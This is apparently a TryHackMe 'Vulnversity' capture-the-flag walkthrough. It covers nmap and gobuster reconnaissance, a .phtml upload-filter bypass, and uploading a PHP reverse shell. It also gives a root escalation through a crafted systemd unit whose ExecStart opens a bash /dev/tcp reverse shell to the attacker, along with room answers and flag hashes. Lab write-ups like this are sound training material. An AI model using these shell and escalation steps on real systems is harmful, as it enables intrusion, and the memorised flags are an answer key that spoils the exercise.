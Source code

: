 # **TryHackMe Vulnversity**
*Walkthrough using Kali Linux by Leonidas Karagkounis*

## **Reconnaissance**
nmap -sV <target_ip> 

1. Scan the box, how many ports are open? : **6**
2. What version of the squid proxy is running on the machine? : **3.5.12**
3. How many ports will nmap scan if the flag -p-400 was used? : **400**
4. Using the nmap flag -n what will it not resolve? : **DNS**
5. What is the most likely operating system this machine is running?
 : **Ubuntu**
6. What port is the web server running on? : **3333**

## **Locating directories using Gobuster**
gobuster dir --url http://<target_ip>:3333 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
1. What is the directory that has an upload form page? : **/internals/**

## **Compromise the webserver**
Visit <target_ip>/internal/

You can start uploading files to find the extension that is blocked
1. Try upload a few file types to the server, what common extension seems to be blocked? : **.php**

Start FoxyProxy and BurpSuite, upload a file and send the intercept to the intruder. Select Sniper attack and add for payload :
- php
- php3
- php4
- php5
- phtml

Then clear § and add § on the filename="hello.§php§" and start the attack. The only difference is noticed on phtml extension.

2. Run this attack, what extension is allowed? : **.phtml**

### **Getting a reverse shell**

- Download php-reverse-shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- Make a copy as php.reverse-shell.phtml. 

- Open the file and edit the $ip = '127.0.0.1' with your machine's ip. If you dont know what is your ip, type ifconfig and check the tun0 interface.

    *You can also change the $port = 1234 if you want to something else like 9001 for example which is what i did and if you follow along change it as well, otherwise make sure to change the commands later on with the appropriate port number.*

- Set up a netcat listener with the command :  nc -nlvp 9001

- Upload the php-reverse-shell.phtml file to the webserver and go to the webpage http://<target_ip>:3333/internal/uploads/php-reverse-shell.phtml.
 
This will execute the script and return a reverse shell in your listener. 

### **Getting the user flag**
Start by typing cat /etc/passwd and it looks like we have one user at the end called bill.

3. What is the name of the user who manages the webserver? : **bill**

Type cd /home/usr/bill and then ls -al. This reveals the user.txt flag. Type cat user.txt to get its contents.
4. What is the user flag? : **8bd7992fbe8a6ad22a63361004cfcedb**

## **Privilege Escalation**
Start by typing find / -user root -perm /4000 2>/dev/null
1. On the system, search for all SUID files. What file stands out? : **/bin/systemctl**

### **Getting a root shell**

- On your machine create a file called root.service. The content of the file should be this : 

        [Unit]
        Description=roooooooooot

        [Service]
        Type=simple
        User=root
        ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/9001 0>&1'

        [Install]
        WantedBy=multi-user.target


- Start a python http server using the command :  python3 -m http.server 8000

- On the target machine run the command : find / -type d -maxdepth 2 -writable. This should reveal all writable directories. Use cd to get into one in our case cd /tmp

- Run the command wget http://<your_ip>:8000/root.service. This should get the root.service file from your machine to the target. 

- Stop the python server and start a listener with nc -nlvp 9001

- Use the command : /bin/systemctl enable /tmp/root.service

- Use the command : /bin/systemctl start root

- Now you should have a root shell on your listener

### **Geting the root flag**

Navigate into root folder by using cd /root and type ls -al to see the root.txt flag. Check the content with cat root.txt

2. Become root and get the last flag (/root/root.txt) : **a58ff8579f0a9270368d33a9966c7fd5**